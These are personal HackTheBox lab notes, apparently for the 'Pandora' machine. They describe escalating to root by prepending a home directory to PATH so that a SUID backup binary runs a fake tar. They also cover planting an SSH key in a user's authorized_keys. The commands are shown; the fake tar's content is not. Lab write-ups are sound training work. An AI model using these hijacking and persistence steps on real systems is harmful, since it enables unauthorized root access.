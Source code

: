 ![[HackTheBox/Linux/attachments/Pasted image 20250511224044.png]]

```
export PATH=/home/matt:$PATH
```

```
echo $PATH
```

![[HackTheBox/Linux/attachments/Pasted image 20250511224149.png]]

```
chmod +x tar
```

```
which tar
```

![[HackTheBox/Linux/attachments/Pasted image 20250511224233.png]]
- it workieee

Then executing should make us root
```
/usr/bin/pandora_backup
```

but it didn't...because we can't setresuid

![[HackTheBox/Linux/attachments/Pasted image 20250511224414.png]]

### SSH into box as a workaround the SETRESUID issue..

Generate ssh key for matt on kali
```
ssh-keygen -f matt
```

```
chmod 600 matt
```

Set up simple python server to transfer the ssh public key to matt's .ssh directory into `authorized_keys`

Now ssh in as matt 
```
ssh -i matt matt@10.10.11.136
```

Re-running through the export PATH steps to hijack the tar binary path and re-execute the pandora_backup binary and get root 

![[HackTheBox/Linux/attachments/Pasted image 20250511225125.png]]
⭐got root⭐

